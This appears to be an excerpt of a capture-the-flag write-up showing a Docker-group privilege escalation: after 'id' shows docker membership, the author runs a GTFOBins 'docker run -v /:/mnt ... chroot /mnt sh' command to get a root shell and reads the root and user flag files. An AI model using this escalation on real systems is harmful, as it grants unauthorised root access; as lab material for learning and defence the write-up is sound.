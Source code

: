 **Running `id` command.**
```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
anurodh@ubuntu:~$ ls
source_code.php
```

**Then i checked in [gtfobins](https://gtfobins.github.io/gtfobins/docker/). Then check root flag** 
```
anurodh@ubuntu:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# cd /root
# ls
proof.txt
# cat proof.txt	
```
 
#### user flag.

**User**
```
# cd /home
# ls
anurodh  apaar	aurick
# cd apaar
# ls
local.txt
# cat local.txt
{USER-FLAG: REDACTED}
```

**End.**
